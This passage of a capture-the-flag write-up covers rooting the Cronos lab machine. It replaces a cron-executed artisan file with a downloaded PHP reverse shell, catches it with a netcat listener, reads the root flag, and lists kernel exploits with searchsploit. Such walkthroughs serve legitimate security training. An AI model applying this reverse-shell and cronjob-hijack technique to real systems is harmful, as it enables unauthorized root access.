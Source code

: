 ```bash
drwxr-xr-x  5 www-data www-data    4096 Apr  9  2017 storage
drwxr-xr-x  4 www-data www-data    4096 Apr  9  2017 tests
drwxr-xr-x 31 www-data www-data    4096 Apr  9  2017 vendor
-rw-r--r--  1 www-data www-data     555 Apr  9  2017 webpack.mix.js
```

I move [this PHP reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) from my host to Cronos using the same technique as before for moving `LinEnum.sh`. I then edit the config of the reverse shell to point at my host on a port I will set up a listener on. And then I move the reverse-shell to artisan after making it executable with `chmod +x php-reverse-shell.php`. And now we wait for the cronjob to run...

```bash
nc -lvnp 8082
listening on [any] 8082 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.13] 37208
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:13:02 up  2:42,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
www-data pts/1    tmux(3050).%0    11:55   17:33   0.02s  0.00s tmux
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/flag.txt
cat: /root/flag.txt: No such file or directory
# ls /root/
root.txt
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```

And there we have it.

I also now realize that my original approach to reading the root flag didn't work because I didn't have the correct path! I was using `/root/flag.txt`, not `/root/root.txt`.

I bet that if I reset the box (since I've overwritten the `artisan` file) and changed my scheduled function to cat the correct file that I would have been able to read the root flag a bit ago... On the other hand, this approach gets me a full **root shell**, not just the ability to execute commands with root privileges.

Another approach I could have taken was a kernel exploit since the kernel was so old, but that's less fun.

```bash
[-] Kernel information (continued):
Linux version 4.4.0-72-generic (buildd@lcy01-17) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017
```

The `4.4` kernel seems to be vulnerable to a number of exploits:

```bash
$ searchsploit 4.4 kernel
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                 |  Path
                                                                                                                                               | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Linux Kernel 2.4.4 < 2.4.37.4 / 2.6.0 < 2.6.30.4 - 'Sendpage' Local Privilege Escalation (Metasploit)                                          | exploits/linux/local/19933.rb
```